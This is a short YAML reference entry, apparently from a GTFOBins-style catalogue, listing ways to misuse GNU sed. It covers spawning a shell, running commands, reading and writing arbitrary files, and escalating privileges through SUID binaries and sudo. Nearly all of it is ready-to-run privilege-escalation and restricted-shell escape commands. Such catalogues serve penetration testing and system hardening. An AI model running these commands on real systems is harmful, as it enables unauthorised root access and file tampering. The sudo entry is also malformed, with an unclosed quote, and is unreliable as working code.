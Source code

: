 ```yaml
---
functions:
  shell:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n '1e exec sh 1>&0' /etc/hosts
    - description: GNU version only. The resulting shell is not a proper TTY shell.
      code: sed e
  command:
    - description: GNU version only.
      code: sed -n "1e id" /etc/hosts
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n "1s/.*/DATA/w $LFILE" /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  sudo:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n '1e exec sh 1>&0 /etc/hosts
---
```

